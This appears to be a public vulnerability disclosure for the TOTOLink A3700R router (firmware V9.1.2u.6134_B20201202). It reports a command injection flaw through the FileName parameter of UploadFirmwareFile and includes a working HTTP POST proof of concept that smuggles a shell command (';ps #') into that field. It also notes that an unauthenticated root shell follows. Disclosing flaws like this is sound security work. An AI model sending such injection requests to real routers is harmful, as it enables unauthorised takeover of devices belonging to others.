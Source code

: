 # TOTOLink A3700R V9.1.2u.6134_B20201202 Has an command injection vulnerability

## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ： http://www.totolink.cn/home/menu/detail.html?menu_listtpl=download&id=69&ids=36

### Product Information

TOTOLink A3700R V9.1.2u.6134_B20201202 router, the latest version of simulation overview：

![image-20220719210324254](img/image-20220719210324254.png)

## Vulnerability details

TOTOLINK A3700R (V9.1.2u.6134_B20201202) was found to contain a command insertion vulnerability in UploadFirmwareFile.This vulnerability allows an attacker to execute arbitrary commands through the "FileName" parameter.

![image-20220719211135564](img/image-20220719211135564.png)

Var is passed directly into the dosystem function.

![image-20220719205544791](img/image-20220719205544791.png)

The dosystem function is finally found to be implemented in this file by string matching.

![image-20220719205811209](img/image-20220719205811209.png)

Reverse analysis found that the function was called directly through the system function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
POST /cgi-bin/cstecgi.cgi?action=upload&UploadFirmwareFile HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Length: 75
Origin: http://192.168.0.1
DNT: 1
Connection: close
Cookie: SESSION_ID=2:1658224702:2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Pragma: no-cache
Cache-Control: no-cache

{"FileName":";ps #","ContentLength":"1","topicurl":"UploadFirmwareFile"}
1
```

![image-20220719212510596](img/image-20220719212510596.png)

 The above figure shows the POC attack effect 

![image-20220720065911385](img/image-20220720065911385.png)

Finally, you can write exp to get a stable root shell without authorization.
